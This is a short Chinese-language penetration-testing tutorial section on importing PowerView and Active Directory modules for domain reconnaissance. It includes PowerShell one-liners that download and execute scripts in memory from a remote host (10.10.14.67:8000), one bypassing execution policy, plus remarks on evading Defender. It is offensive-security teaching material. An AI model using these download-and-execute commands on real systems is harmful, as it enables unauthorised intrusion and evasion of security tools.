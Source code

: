 # 3.4.1 基本脚本模块导入

[Powerview项目地址](https://github.com/ianxtianxt/PowerSploit/blob/master/Recon/PowerView.ps1)

```bash
Import-Module C:\Users\zerosec\Documents\powerview.ps1

```

![1.png](images/yushentou/d751af0e1d3f4f0a9d90ebe4f6dcdc44.png)

[ADModule项目地址](https://github.com/ianxtianxt/ADModule)，不需要安装RSAT即可使用AD模块：

使用dll导入：

```bash
Import-Module D:\ADModule-master\ADModule-master\Microsoft.ActiveDirectory.Management.dll -Verbose

```

或者直接导入ActiveDirectory.ps1

```bash
iex (new-Object Net.WebClient).DownloadString('http://10.10.14.67:8000/Import-ActiveDirectory.ps1');Import-ActiveDirectory

```

因为是微软签名的模块，所以ActiveDirectory能够达到一定程度的免杀效果、powerview直接被defender识别（powerview实际用起来更方便）：

![2.png](images/yushentou/e1240ef95e834fd9a20f8518d43509b6.png)

加载到内存执行（只能绕过powershell策略，而不能绕过杀软对powerview的检测）

```bash
powershell.exe -exec Bypass -C “IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.67:8000/powerview.ps1');Get-NetDomainController"

```


